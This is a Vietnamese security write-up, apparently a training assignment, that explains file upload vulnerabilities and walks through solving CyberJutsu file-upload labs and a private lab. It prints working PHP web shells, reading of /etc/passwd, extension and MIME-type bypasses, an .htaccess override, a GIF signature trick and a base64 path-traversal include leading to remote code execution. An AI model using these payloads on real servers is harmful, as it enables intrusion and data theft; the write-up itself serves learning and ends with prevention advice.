



# Task 4

## Tìm hiểu về lỗ hổng File Upload

### Lỗ hổng file upload là gì?

File upload là một lỗ hổng bảo mật trong các ứng dụng web khi một web server cho phép người dùng tải lên các file tới filesystem nhưng không thực hiện các bước xác thực đầy đủ những thứ như tên, loại, nội dung hay kích thước của chúng. Việc không thực hiện đúng cách các hạn chế đối với những thứ này thì một chức năng tải lên hình ảnh cơ bản có thể được sử dụng để tải lên file tuỳ ý và có khả năng gây ra nguy hiểm. Attacker cũng có thể thực thi mã từ xa bằng cách tải lên file code server-side.

### Tác động của lỗ hổng file upload

Nếu loại file không được xác thực đúng cách và cấu hình server cho phép một số loại file nhất định (ví dụ như `.php` và `.asp`) được thực thi. Trong trường hợp này, attacker có thể tải lên một file code server-side có chức năng như một web shell và chiếm quyền điều khiển server.

Nếu tên file không được xác thực đúng cách, attacker có thể ghì đè các file quan trọng bằng cách tải lên các file có cùng tên. Nếu server cũng dính lỗi path traversal thì attacker có thể tải lên các file tới những vị trí mà chúng ta không lường trước được.

Khi chúng ta không đảm bảo được kích thước của các file nằm trong một ngưỡng dự kiến thì attacker cũng có thể khai thác và tạo nên một cuộc tấn công denial-of-service (DoS).

### Khai thác file upload để triển khai web shell

Web shell có thể được hiểu là một tập lệnh độc hại cho phép attacker thực thi từ xa các lệnh tùy ý trên web server bằng cách gửi đi các HTTP request.

Khi web server cho phép chúng ta tải lên các file code server-side như PHP, Java hay Python và nó cũng được cấu hình thể thực thi các file này thì chúng ta có thể tạo được web shell của riêng mình.

Nếu như tải lên thành công web shell, chúng ta sẽ có toàn quyển kiểm soát server. Từ đó có thể đọc và ghi các file tuỳ ý, lấy các dữ liệu nhạy cảm, thậm chí chúng ta có thể sử dụng server đó để mở rộng cuộc tấn công tới cơ sở hạ tầng nội bộ và các server khác ngoài mạng.

Ví dụ, một file PHP chứa đoạn code sau có thể được sử dụng để đọc file `passwd` trên server.

```php
<?php echo file_get_contents('/etc/passwd'); ?>
```

Sau khi được tải lên thành công, chúng ta gửi request tới file PHP đó có thể sẽ nhận được nội dung của file `passwd` trong response.

### Khai thác file upload khi có sự thiếu xót trong việc xác thực

Các website thông thường sẽ có những biện pháp bảo vệ chống tại các cuộc tấn công file upload. Tuy nhiên, chúng ta vẫn có thể khai thác những sai sót trong các cơ chế này để lấy được web shell và thực thi mã từ xa.

#### Sai sót trong xác thực loại file

Thông thường, khi chúng ta submit một HTML form, trình duyệt sẽ gửi dữ liệu được cung cấp trong một POST request với Content-Type `multipart/form-data`.

Ví dụ, một HTML form có các trường cho tải lên hình ảnh, cung cấp mô tả và nhập tên của người dùng. Khi submit một form như vậy sẽ tạo ra một request tương tự sau:

```text
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="example.jpg"
Content-Type: image/jpeg

[...binary content of example.jpg...]

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="description"

This is an interesting description of my image.

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="username"

wiener
---------------------------012345678901234567890123456--
```

Chúng ta thấy rằng message body được chia thành những phần riêng cho mỗi input của form. Mỗi phần chứa một header `Content-Disposition`, header này sẽ cung cấp một số thông tin cơ bản về trường input liên quan. Những phần này cũng có thể chứa header `Content-Type` riêng. Cái sẽ nói cho server biết MIME type của dữ liệu được submit là gì.

Một cách mà website thực hiện xác thực file tải lên là kiểm tra header `Content-Type` của input cụ thể có khớp với một MIME type mong muốn không. Nếu server mong muốn người dùng tải lên các file hình ảnh nó sẽ chỉ cho phép các loại như `image/jpeg` hay `image/png`. Lúc này, chúng ta có thể dễ dàng bypass bằng cách sử dụng công cụ như Burp Repeater để thay thế một MIME type mà server cho phép.

#### Ngăn chặn việc thực thi file trong thư mục mà người dùng có thể truy cập

Các server thường chỉ chạy các tập lệnh có MIME type mà chúng được cấu hình để thực thi. Ngược lại, nó sẽ trả về một số loại thông báo lỗi hoặc chỉ cung cấp lại nội dung của file:

```text
GET /static/exploit.php?command=id HTTP/1.1
Host: normal-website.com


HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 39

<?php echo system($_GET['command']); ?>
```

Tuy nhiên, loại cấu hình này thường khác nhau giữa các thư mục. Ở thư mục chứa các file do người dùng tải lên có thể sẽ có các biện pháp kiểm soát chặt chẽ hơn so với các thư mục khác trong filesystem. Chúng ta có thể tìm một cách để tải lên file tới thư mục khác ví dụ như tận dụng path traversal đổi tên file thành `..%2fexploit.php`.

#### Không blackist hết các loại file nguy hiểm

Server có thể blacklist các extension của file nguy hiểm như `.php`. Tuy nhiên, chúng ta vẫn có thể bypass được bằng cách sử dụng các extension thay thế như `.php5`, `.phtml`, `.phar`...

Server thường không thực thi các file trừ khi chúng được cấu hình đúng cách để làm vậy. Ví dụ, trước khi Apache server có thể thực thi file PHP được request bởi người dùng, các nhà phát triển phải thêm các chỉ thị sau vào trong file `/etc/apache2/apache2.conf`:

```text
LoadModule php_module /usr/lib/apache2/modules/libphp.so
AddType application/x-httpd-php .php
```

Các server cũng cho phép nhà phát triển tạo các file cấu hình trong những thư mục khác để ghì đè hoặc bổ sung cấu hình. Ở Apache server sẽ tải cấu hình từ một file được gọi là `.htaccess`.

Nếu các extension của file PHP bị blacklist hết, chúng ta vẫn có thể khiến server thực thi file `.flag` như file `.php` bằng cách tải lên file `.htaccess` với nội dung như sau:

```text
AddType application/x-httpd-php .flag
```

#### Sai sót trong việc xác thực nội dung của file

Thay vì tin tưởng hoàn toàn vào `Content-Type` được chỉ định trong request. Server sẽ cố gắng xác minh nội dung của file tải lên có khớp với cái đang mong muốn hay không.

Ví dụ, trong trường hợp một trang web có chức năng tải lên hình ảnh. Server sẽ xác minh những thuộc tính của hình ảnh như kích thước. Nếu chúng ta tải lên một file PHP, nó không có kích thước nên sẽ bị server phát hiện và từ chối.

Một số loại file nhất định có thể luôn chứa một chuỗi byte cụ thể ở header hoặc footer của chúng. Những chuỗi này được sử dụng như file signature để xác định xem nội dung có khớp với một loại nào hay không. Ví dụ, ở file JPEG luôn bắt đầu bằng `FF D8 FF`.

Tuy nhiên, chúng ta vẫn có thể bypass cách xác thực này bằng cách sử dụng ExifTool:

```text
exiftool -Comment="<?php system('whoami'); ?>" image.jpg -o exploit.php
```

### Cách ngăn chặn lỗ hổng file upload

- Kiểm tra extension của file dựa trên một whitelist của các extension được phép thay vì một blacklist của các extension bị cấm.
- Đảm bảo tên file không chứa bất kỳ chuỗi con nào có thể được hiểu là `../`.
- Đổi tên các file đã tải lên để tránh việc ghì đè các file hiện có.
- Không tải các file lên filesystem của server cho đến khi chúng được xác thực đầy đủ.
- Sử dụng một framework để xử lý việc tải lên file thay vì cố gắng viết các cơ chế xác thực của riêng mình.

### Nguồn tham khảo

- <https://portswigger.net/web-security/file-upload>

## Giải các bài lab File Upload của CyberJutsu

### Level 1



Khi nhấn `Debug source` chúng ta có thể thấy source code của trang web:


Trang web không thực hiện bất kỳ một biện pháp ngăn chặn tấn công file upload nào nên chúng ta có thể dễ dàng thực hiện RCE bằng cách tải lên một file `exploit.php`:

```php
<?php system("ls /"); ?>
```

Sau khi tải lên thành công, chúng ta sẽ thấy như sau:


Em truy cập tới file `exploit.php` thấy được ở `/` có một file `71c99ec9c94-secret.txt`:


Để đọc được file đó, em đổi lại nội dung của file `exploit.php`:

```php
<?php system("cat /71c99ec9c94-secret.txt"); ?>
```

Tải lên lại file một lần nữa rồi truy cập đường dẫn tới file, em đã lấy được flag:


### Level 2


Khi nhấn `Debug source` chúng ta có thể thấy source code của trang web:


Ở level 2 này tác giả đã chặn chúng ta tải lên file PHP bằng cách kiểm tra extension.

Từ đoạn code trên em hiểu rằng nếu chúng ta đặt tên file là `exploit.php` thì biến `$extension` sẽ có giá trị là `php`. Từ đó mà không thể bypass câu lệnh `if`.

Để có thể bypass, em đổi tên file thành `exploit..php`:

```php
<?php system("ls /"); ?>
```

Tải lên file thành công:


Truy cập theo đường dẫn tới file em thấy được ở `/` có một file `1ad7e7cd851-secret.txt`:



Để đọc được file đó em đổi lại nội dung của file `exploit..php`:

```php
<?php system("cat /1ad7e7cd851-secret.txt"); ?>
```

Tải lên file một lần nữa và truy đường dẫn tới file, em đã thấy được flag:


### Level 3


Khi nhấn `Debug source` chúng ta sẽ thấy được source code của trang web:


Ở level này, tác giả đã lấy ra phần tử cuối cùng của mảng được trả về từ hàm `explode()` bằng cách sử dụng thêm hàm `end()`. Do đó em đã sử dụng một extension khác là `.phtml`.

Để đọc được luôn file chứa flag, em thực hiện tải lên file `exploit.phtml` với nội dung sau:

```php
<?php system("cat /*.txt"); ?>
```

Tải lên file thành công:


Truy cập theo đường dẫn tới file, em đã thấy được flag:


### Level 4


Khi nhấn `Debug source` chúng ta sẽ xem được source code của trang web:


Ở level này, tác giả đã chặn luôn các extension thay thế nên em tận dụng cách ghì đè file cấu hình của Apache server.

Trước tiên, để có thể thực thi file `.flag` như file `.php`, em tải lên file `.htaccess` với nội dung sau:

```text
AddType application/x-httpd-php .flag
```

Đã tải lên thành công:


Giờ thì chỉ cần tải lên file `exploit.flag`:

```php
<?php system("cat /*.txt"); ?>
```

Tải lên thành công, em truy cập theo đường dẫn tới file đã thấy được flag:


### Level 5


Khi nhấn `Debug source` chúng ta có thể thấy được source code của trang web:



Trang web chỉ cho phép 3 MIME type là `image/jpeg`, `image/png` và `image/gif`. Vậy để bypass thành công chúng ta có thể sử dụng Burp Repeater để chỉnh sửa header `Content-Type` thành một 1 trong 3 MIME type trên.

Em thực hiện tải lên file `exploit.php` với nội dung sau:

```php
<?php system("cat /*.txt"); ?>
```

Sau đó, em đổi `Content-Type` thành `image/jpeg` rồi gửi request đã tải lên file thành công:


Để lấy được flag, em truy cập theo đường dẫn tới file `exploit.php`:


### Level 6


Khi nhấn `Debug source` chúng ta sẽ xem được source code của trang web:


Ở level cuối này, tác giả đã sử dụng hàm `finfo_file()` để lấy ra MIME type của file mà chúng ta tải lên. Sau đó thực hiện so sánh nó với 1 trong 3 MIME type `image/jpeg`, `image/png` và `image/gif`.

Để bypass thành công, ở trong file `exploit.php` em thêm file signature của file gif vào trước đoạn code php:

```php
GIF87a <?php system("cat /*.txt"); ?>
```

Em gửi request đã thấy file được tải lên thành công:


Gửi request tới file `exploit.php` em đã thấy được flag:


## Lab anh Đức


Em thực hiện đăng ký tài khoản `admin:admin`. Sau đó đăng nhập vào thì thấy giao diện sau:


Em thấy được ở URL `https://task.twil4.click/index.php?page=c3RvcmFnZS5waHA=` có chức năng upload file:


Em tải lên một file `exploit.php` với nội dung sau:

```php
<?php echo 123; ?>
```

Tải file lên thành công:


Tuy nhiên, khi gửi request tới file em chỉ thấy nội dung của file được trả về:


Em để ý thấy giá trị của tham số `page` có chút đặc biệt, nó được encode Base64:


Decode Base64 em thấy chuỗi đó là `storage.php`:


Em thử encode Base64 `abc` thành `YWJj` rồi đưa vào tham số `page` thì nhận được thông báo lỗi:


Vậy là giá trị của tham số `page` được decode Base64 sau đó được nối vào `pages/` trong câu lệnh `include()`.

Do đó, chúng ta hoàn toàn có thể include file `exploit.php` vào file `index.php` hiện tại để thực thi.

Cấu trúc thư mục của trang web có thể được hiểu như sau:

```text
index.php
pages/storage.php
storage/db570745-63af-4324-84c0-e2eeaa1facd3/exploit.php
```

Em thực hiện encode Base64 đường dẫn `../storage/db570745-63af-4324-84c0-e2eeaa1facd3/exploit.php` thành `Li4vc3RvcmFnZS9kYjU3MDc0NS02M2FmLTQzMjQtODRjMC1lMmVlYWExZmFjZDMvZXhwbG9pdC5waHA=` sau đó truyền tới tham số `page` rồi gửi request thì thấy rằng file `exploit.php` đã được thực thi:


Em tải lên lại file `exploit.php` với nội dung sau để có thể đọc file `flag.txt` chứa flag:

```php
<?php system("cat /flag.txt"); ?>
```

Tải lên file thành công:


Và cuối cùng gửi request tới `/index.php?page=Li4vc3RvcmFnZS9kYjU3MDc0NS02M2FmLTQzMjQtODRjMC1lMmVlYWExZmFjZDMvZXhwbG9pdC5waHA=` em đã thấy được flag:


